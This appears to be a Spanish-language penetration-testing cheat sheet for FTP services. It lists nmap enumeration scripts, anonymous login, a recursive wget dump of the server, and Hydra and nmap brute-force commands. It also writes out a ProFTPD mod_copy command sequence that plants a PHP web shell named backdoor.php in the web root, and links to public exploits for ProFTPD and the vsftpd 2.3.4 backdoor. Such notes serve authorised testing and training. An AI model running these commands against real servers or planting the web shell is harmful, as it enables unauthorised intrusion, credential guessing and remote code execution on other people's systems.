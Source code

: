 # FTP
Protocolo de transferencia de archivos , usualmente en el puerto 21

## Enumeración
### NMAP scan
```
nmap IP --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 
```
### Conexión anonima
```
ftp Anonymous@IP
```
### Volcar el FTP si login anonymous esta activo
```bash
wget ftp://IP/* -r
```
### Interación con el servicio
* Obtener la ruta del directorio actual
```
>PWD
```
* Checkear si hay permisión de subir archivos 
```
>PUT file.ext
```
*  Obtener archivos desde el cliente
```
get file.ext
```

## Ataque por fuerza bruta
* Hydra
```
hydra -L UserList -P PassList ftp://IP 
```
* Nmap
```
nmap --script ftp-brute --script-args userdb=UserList -p Puerto IP
```

## Vulnerabilidades comunes sin metasploit
### ProFTPD 1.3.5 File Copy ( CVE 2015-3306 )
```
https://www.exploit-db.com/exploits/36742
```
#### Convertir la anterior vuln en un RCE
```
site cpfr /proc/self/cmdline
site cpto /tmp/.<?php passthru($_GET['cmd']);?>
site cpfr /tmp/.<?php passthru($_GET['cmd']);?>
site cpto /var/www/html/backdoor.php
```
### vsftpd 2.3.4 Backdoor ( CVE 2011-0762 ) 
```
https://github.com/ahervias77/vsftpd-2.3.4-exploit
```
